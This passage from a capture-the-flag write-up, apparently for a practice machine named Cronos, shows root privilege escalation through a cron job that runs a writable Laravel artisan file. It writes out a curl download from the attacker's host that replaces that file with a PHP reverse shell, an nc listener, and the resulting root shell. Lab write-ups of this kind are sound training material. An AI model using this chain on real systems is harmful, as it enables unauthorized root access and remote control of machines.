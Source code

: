 ```bash
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

This last one is pretty juicy. We should have access to this scheduled cron job with r/w permissions. Let's dive in further.

Since we can alter the content of /var/www/laravel/artisan as we want, let's substitute this file with a php reverse shell generated by https://www.revshells.com/. 

Hosted the file on my local machine

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/scripts]
└─$ python3 -m http.server 3000
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ...
10.10.10.13 - - [01/Mar/2025 12:35:46] "GET /revshell.php HTTP/1.1" 200 -
```

Prepared a listener for the reverse shell on my local machine

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/scripts]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

And retrieved it on the target machine

```bash
www-data@cronos:/var/www/laravel$ curl 10.10.14.21:3000/revshell.php > artisan
<ravel$ curl 10.10.14.21:3000/revshell.php > artisan                         
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2592  100  2592    0     0  29612      0 --:--:-- --:--:-- --:--:-- 29793
```

This instantly executes the php exploit, gaining root access via reverse shell! Juicy :3

```bash
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.13] 46350
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 19:36:01 up  4:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
bash: cannot set terminal process group (25819): Inappropriate ioctl for device
bash: no job control in this shell
root@cronos:/# whoami
whoami
root
```
